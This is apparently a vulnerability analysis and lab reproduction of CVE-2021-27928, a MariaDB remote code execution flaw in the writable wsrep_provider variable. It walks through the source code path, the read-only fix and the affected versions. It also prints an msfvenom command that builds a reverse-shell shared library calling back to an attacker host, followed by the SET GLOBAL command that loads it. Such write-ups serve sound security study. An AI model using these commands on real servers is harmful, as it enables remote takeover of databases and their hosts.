




# CVE-2021-27928 CWE-94 MariaDB RCE

## Vulnerability Background
- **wsrep_provider**: A configuration item in MariaDB and MySQL used to specify the Galera cluster synchronization provider library, responsible for data synchronization and consistency between database nodes. This configuration item typically points to library files like `libgalera_smm.so`, ensuring data consistency and high availability for all nodes in the cluster.
- **Sys_wsrep_notify_cmd:** is a system variable defined in MariaDB that allows an external command or script to be executed when a specific event occurs in a Galera cluster. This system variable is typically used to configure certain actions when the Galera cluster's state changes, such as sending notifications or performing automated tasks.
- **msfveno**: A tool within the Metasploit framework used to generate malicious payloads. It can generate different payload formats according to the attacker's needs, such as `exe`, `elf`, `apk`, etc., and supports custom remote hosts (LHOST) and ports (LPORT) to enable reverse connections. `msfvenom` Allows attackers to embed generated malicious payloads into applications, exploiting vulnerabilities for remote code execution and gaining control over target systems. This tool is widely used for penetration testing and vulnerability exploitation, but it can also be used maliciously.

## Vulnerability Mechanism
This vulnerability allows attackers to modify `wsrep_provider` configuration items to load shared library files containing malicious code, thereby executing operating system commands and causing remote code execution. Attackers can exploit this vulnerability to execute arbitrary commands on the database server, potentially resulting in complete control over the server.

## Vulnerability Location
1. **Vulnerability Points** In lines **5251** and **5420** of the **sql\sys_vars.cc** file, two `Sys_var_charptr`-type global variables are defined respectively, `wsrep_provider` and `wsrep_notify_cmd`, both used to configure MariaDB Parameters of the Galera cluster. Specifically, these variables are used to configure settings related to Galera copy providers and notification commands.

The first variable takes a path to the `.so` library, which the server will attempt to `dlopen()` the library; the second variable accepts a path to the shell script the server will execute. There is no constraint on these two variables here; they are writable, meaning database users with super privileges can modify them at runtime as system `mysql` users.

In line **5652**, `ON_UPDATE(wsrep_provider_update)` is used to call the `wsrep_provider_update` function when updating the variable, typically to handle operations after the variable value is updated, track the function, and analyze what happens when the variable is modified.

```cpp
static Sys_var_charptr Sys_wsrep_provider(
       "wsrep_provider", "Path to replication provider library",
       PREALLOCATED GLOBAL_VAR(wsrep_provider), CMD_LINE(REQUIRED_ARG),
       IN_FS_CHARSET, DEFAULT(WSREP_NONE),
       NO_MUTEX_GUARD, NOT_IN_BINLOG,
       ON_CHECK(wsrep_provider_check), ON_UPDATE(wsrep_provider_update));

// ... ...

static Sys_var_charptr Sys_wsrep_notify_cmd(
       "wsrep_notify_cmd", "",
       GLOBAL_VAR(wsrep_notify_cmd),CMD_LINE(REQUIRED_ARG),
       IN_SYSTEM_CHARSET, DEFAULT(""));
```

2. At line **331** of the **sql\wsrep_var.cc** file, `wsrep_provider_update` the operation performed when handling the update `wsrep_provider` variable. At line **357**, the `wsrep_init()` function is called to initialize the new Galera replica provider library. If initialization fails, `my_error()` will output an error message and return `rcode = true` indicating failure. Tracking `wsrep_init()` function.

```cpp
bool wsrep_provider_update (sys_var *self, THD* thd, enum_var_type type)
{
  bool rcode= false;

  bool wsrep_on_saved= thd->variables.wsrep_on;
  thd->variables.wsrep_on= false;

  WSREP_DEBUG("wsrep_provider_update: %s", wsrep_provider);

  /* stop replication is heavy operation, and includes closing all client 
     connections. Closing clients may need to get LOCK_global_system_variables
     at least in MariaDB.

     Note: releasing LOCK_global_system_variables may cause race condition, if 
     there can be several concurrent clients changing wsrep_provider
  */
  mysql_mutex_unlock(&LOCK_global_system_variables);
  wsrep_stop_replication(thd);
  mysql_mutex_lock(&LOCK_global_system_variables);

  if (wsrep_inited == 1)
    wsrep_deinit(false);

  char* tmp= strdup(wsrep_provider); // wsrep_init() rewrites provider
                                     //when fails

  if (wsrep_init())
  {
    my_error(ER_CANT_OPEN_LIBRARY, MYF(0), tmp, my_error, "wsrep_init failed");
    rcode = true;
  }
  free(tmp);

  // we sure don't want to use old address with new provider
  wsrep_cluster_address_init(NULL);
  wsrep_provider_options_init(NULL);

  thd->variables.wsrep_on= wsrep_on_saved;

  refresh_provider_options();

  return rcode;
}
```

3. In the **sql\wsrep_mysqld.cc** file, line **586**, `wsrep_init()` is mainly used to initialize the Galera wsrep copy provider. It is responsible for loading `wsrep_provider` (i.e., `.so` shared libraries), configuring cluster information, and completing necessary configurations. At line **604**, `wsrep_load` is responsible for dynamically loading the `wsrep_provider` specified `.so` shared library and continuing tracking.

```cpp
int wsrep_init()
{
    //  ... ...
    if ((rcode= wsrep_load(wsrep_provider, &wsrep, wsrep_log_cb)) != WSREP_OK)
      {
        if (strcasecmp(wsrep_provider, WSREP_NONE))
        {
          WSREP_ERROR("wsrep_load(%s) failed: %s (%d). Reverting to no provider.",
                      wsrep_provider, strerror(rcode), rcode);
          strcpy((char*)wsrep_provider, WSREP_NONE); // damn it's a dirty hack
          return wsrep_init();
        }
        else /* this is for recursive call above */
        {
          WSREP_ERROR("Could not revert to no provider: %s (%d). Need to abort.",
                      strerror(rcode), rcode);
          unireg_abort(1);
        }
      }
    // ... ...
}
```

4. At line **132** of the **wsrep\wsrep_loader.c** file, the `wsrep_load` function is mainly used to load the Galera wsrep provider shared library (i.e., the `.so` file specified by `spec`). The **163** line uses `dlopen` to load the specified provider library, while on Linux/Unix, `dlopen` is used to load `.so` shared libraries.

```cpp
int wsrep_load(const char *spec, wsrep_t **hptr, wsrep_log_cb_t log_cb)
{
    // ... ...
        if (!(dlh = dlopen(spec, RTLD_NOW | RTLD_LOCAL))) {
        snprintf(msg, sizeof(msg)-1, "wsrep_load(): dlopen(): %s", dlerror());
        logger (WSREP_LOG_ERROR, msg);
        ret = EINVAL;
        goto out;
    }
	// ... ...
}
```

In summary, using the first variable, you can use msfvenom to generate a `.so` library containing a payload (an inverted shell). This file is then copied to the vulnerable machine and the `SET GLOBAL` command is used to modify the value of the `wsrep_provider` variable to point to that path, which will execute the payload and allow us to access the target machine as a user with super privileges (here, `mysql` user).

## Remediation
In the `sql/sys_vars.cc` file, an `READ_ONLY` attribute has been added to the definitions of `wsrep_provider` and `wsrep_notify_cmd` variables. This means that after the database starts, the values of these variables cannot be modified, thereby preventing attacks using these variables.

## Affected Versions
	MariaDB 10.2 before 10.2.37
	10.3 before 10.3.28
	10.4 before 10.4.18 
	10.5 before 10.5.9

## Environment Setup
1. First, run the command to generate an ELF-format reverse shell payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.233.133 LPORT=8787 -f elf-so -o CVE-2021-27928.so
```

- `-p linux/x64/shell_reverse_tcp`: `linux/x64/shell_reverse_tcp` payload is selected, which means generating a 64-bit Linux platform reverse TCP shell payload.
- `LHOST=192.168.233.133`: Specify the attacker's host IP address, i.e., the address to which the backlink will be sent. In this example, the attacker's IP address is `192.168.233.133`.
- `LPORT=8787`: Specifies the port number for the reverse connection. In this example, the target system will attempt to establish a connection with the attacker's `8787` port when connecting.
- `-f elf-so`: Specify the output format as ELF Shared Object (`.so`), which is suitable for Linux systems and is typically used for extending modules or library files.
- `-o CVE-2021-27928.so`: Specify the name and path of the output file. In this example, the generated file is `CVE-2021-27928.so`, which will be saved to the current directory.



2. Place the generated CVE-2021-27928.so file into the payload file of the Docker project and mount it into the container's /tmp/payload directory. Boot the environment with MariaDB version 10.3.13




## Vulnerability Reproduction
1. Enter the command line in the Docker environment, enter the command to connect to MariaDB (you can be a non-root user), load a custom shared library file (`CVE-2021-27928.so`), and set it as the `wsrep_provider` of the Galera cluster

```bash
docker exec -it mariadb-10.3.13 bash
mysql -u root -p -e 'SET GLOBAL wsrep_provider="/tmp/payload/CVE-2021-27928.so";'
```



2. Although an execution error is displayed, the attacker's host set in payload is listening for port 8787, and you can see the shell bounce successfully. Enter the command whoami and execute successfully



## PoC Analysis
1. First, run the command to generate an ELF-format reverse shell payload and place the generated file on the target drone

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.233.133 LPORT=8787 -f elf-so -o CVE-2021-27928.so
```

- `-p linux/x64/shell_reverse_tcp`: `linux/x64/shell_reverse_tcp` payload is selected, which means generating a 64-bit Linux platform reverse TCP shell payload.
- `LHOST=192.168.233.133`: Specify the attacker's host IP address, i.e., the address to which the backlink will be sent. In this example, the attacker's IP address is `192.168.233.133`.
- `LPORT=8787`: Specifies the port number for the reverse connection. In this example, the target system will attempt to establish a connection with the attacker's `8787` port when connecting.
- `-f elf-so`: Specify the output format as ELF Shared Object (`.so`), which is suitable for Linux systems and is typically used for extending modules or library files.
- `-o CVE-2021-27928.so`: Specify the name and path of the output file. In this example, the generated file is `CVE-2021-27928.so`, which will be saved to the current directory.

2. Enter the command to connect to MaraDB (you can be a non-root user) and load a custom shared library file (`CVE-2021-27928.so`), setting it as the `wsrep_provider` of the Galera cluster

```bash
mysql -u root -p -e 'SET GLOBAL wsrep_provider="/tmp/payload/CVE-2021-27928.so";'
```

## References
[MariaDB discovers remote code execution issues... · CVE-2021-27928 · GitHub Security Bulletin Database --- A remote code execution issue was discovered in MariaDB... · CVE-2021-27928 · GitHub Advisory Database](https://github.com/advisories/GHSA-2q7x-w5q3-rjxc)

[CVE-2021-27928/README.md at main · LalieA/CVE-2021-27928](https://github.com/LalieA/CVE-2021-27928/blob/main/README.md)

[Al1ex/CVE-2021-27928: CVE-2021-27928 MariaDB/MySQL-'wsrep provider' command injection vulnerability](https://github.com/Al1ex/CVE-2021-27928?tab=readme-ov-file)

[make @@wsrep_provider and @@wsrep_notify_cmd read-only · MariaDB/server@ce3a2a6](https://github.com/MariaDB/server/commit/ce3a2a688db556d8d077a409fd9bf5cc013d13dd#diff-d4c0aa3fa92fea6f90d7f43915d55b441a5a741134c37e8b3f7909c7ebb9abdf)

[Deep Dive and Simulation of a MariaDB RCE Attack: CVE-2021-27928 --- Deep Dive and Simulation of a MariaDB RCE Attack: CVE-2021-27928](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/deep-dive-and-simulation-of-a-mariadb-rce-attack-cve-2021-27928/?utm_source=chatgpt.com)
